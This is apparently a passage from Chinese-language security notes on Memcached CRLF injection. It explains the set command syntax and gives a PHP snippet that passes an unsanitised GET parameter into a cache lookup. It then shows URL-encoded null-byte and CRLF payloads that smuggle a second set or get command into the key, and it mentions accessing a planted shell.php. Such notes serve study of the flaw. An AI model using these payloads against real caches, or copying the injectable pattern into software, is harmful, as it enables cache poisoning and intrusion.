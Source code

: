 之后访问shell.php即可

### 简单描述一下Memcached

Windows系统种CRLF表示行的结束

Linux则以LF表示行的结束

```java
<?php
$server = new \Memcached();
$server->addServer('localhost', 11211);//11211是默认端口
$token = $_GET['token'];
$server->set("wolf","poc") ;
echo "[token] = ";
var_dump($server->get("$token")); 
echo "[wolf] = ";
var_dump($server->get("wolf"));
```

```
set key flags exptime bytes [noreply] 
value 
```

- **key**：键值 key-value 结构中的 key，用于查找缓存值。
- **flags**：可以包括键值对的整型参数，客户机使用它存储关于键值对的额外信息 。
- **exptime**：在缓存中保存键值对的时间长度（以秒为单位，0 表示永远）。
- **bytes**：在缓存中存储的字节数。
- **noreply**（可选）： 该参数告知服务器不需要返回数据。
- **value**：存储的值（始终位于第二行）（可直接理解为key-value结构中的value）。

例如如果我们要存储一个值

```
set snowwolf(key) 0(额外信息) 100（保留的时间长度） 4（字节数和下面value对应）   //
wolf（value值）
STORED 结束标记
```

其实从这个例子我们就可以看出来,可以crlf执行但是会执行最后面的比如  get  get会执行第二个get，get set 会执行第二个set

```php
set snowwolf 0 900 4
wolf
STORED
get snowwolf
VALUE snowwolf 0 4
wolf
END

ERROR
get snowwolf%00%0D%0Aset%20snowwolf%200%20100%203%0D%0Aexp
END

ERROR
get snowwolf%00%0D%0Aget wolf
VALUE wolf 0 3
poc
END
```
